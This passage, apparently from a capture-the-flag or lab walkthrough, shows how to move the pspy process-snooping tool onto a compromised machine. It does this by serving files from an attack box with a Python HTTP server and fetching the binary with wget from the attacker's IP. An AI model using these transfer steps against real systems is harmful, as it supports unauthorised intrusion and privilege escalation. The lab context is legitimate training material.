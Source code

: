 Read through it to learn how to use it. Pretty clear, even a n00b like me could figure it out the first time I used it for breaking into a machine a while back.

Next we need to upload this tool into meaghyn's system! The easiest, fastest way in my opinion is through wget.

On you computer/attack box set a

`sudo python3 -m http.server 80`




![alt_text](images/image26.png "image_tooltip")


From the directory you saved the tool ( you need to cd into the pspy directory)

On meaghyn's side, you need the following command

`wget http://YOUR IP:80/pspy64 pspy64`

(pspy64 is the binary we downloaded from github)


![alt_text](images/image27.png "image_tooltip")

